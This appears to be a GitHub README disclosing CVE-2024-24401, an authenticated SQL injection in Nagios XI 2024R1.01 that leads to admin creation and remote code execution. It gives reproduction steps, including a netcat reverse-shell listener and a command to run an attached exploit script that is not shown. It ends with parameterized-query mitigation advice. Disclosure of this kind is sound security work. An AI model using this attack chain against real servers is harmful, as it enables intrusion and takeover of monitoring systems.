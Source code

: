 ## Vulnerability Report

CVE Disovered by: Jarod Jaslow (MAWK) 

(DESIGNED TO BE RUN ON KALI LINUX)

### Vulnerability Details:

- **Endpoint:** `/nagiosxi//config/monitoringwizard.php` Nagios XI Version 2024R1.01
- **Vulnerability Type:** Authenticated SQL Injection
- **Exploitation Result:** Admin account creation and full remote code execution

### Steps to Reproduce:

1. Create a fresh instance of Nagios XI Version 2024R1.01.
![Pasted image 20240118113507](https://github.com/MAWK0235/NagiosSQLI-CVE-2024-24401/assets/90433993/85fb6873-4066-4927-9f77-96186ed59842)

![Pasted image 20240118113528](https://github.com/MAWK0235/NagiosSQLI-CVE-2024-24401/assets/90433993/5a77e286-5bba-4af4-8c6f-c326011282a2)

![Pasted image 20240118113539](https://github.com/MAWK0235/NagiosSQLI-CVE-2024-24401/assets/90433993/a57ef105-1a10-4d36-a6d4-5e9049e42929)


![Pasted image 20240118113554](https://github.com/MAWK0235/NagiosSQLI-CVE-2024-24401/assets/90433993/22518efd-ceee-48ce-b8ee-7fcb3157e9b8)


3. Create a user with minimum permissions.
![Pasted image 20240118113548](https://github.com/MAWK0235/NagiosSQLI-CVE-2024-24401/assets/90433993/1448fbfb-7c12-4e05-b26b-6baf57edfecf)

5. Start a local listener on the attacker machine using netcat: `nc -nlvp 4444`.
6. Execute the provided Python script with the correct arguments:
    ```
    python3 MawkiNagiosXIPOC.py <target IP> <Local Listening IP> <NC listening port>
    ```
![Pasted image 20240118113632](https://github.com/MAWK0235/NagiosSQLI-CVE-2024-24401/assets/90433993/cdae41df-e0b3-4c03-92ea-0feb39b670ad)

### Proof of Concept:

Attached is the Python script demonstrating the vulnerability 

### Recommendation:

To mitigate the risk of SQL injection, it is strongly advised to use parameterized queries or prepared statements when interacting with databases. Parameterized queries ensure that user input is treated as data, not executable code, making it much more difficult for attackers to inject malicious SQL statements.

This should be mitigated in recent updates.

CVE:

https://cve.mitre.org/cgi-bin/cvename.cgi?name=2024-24401




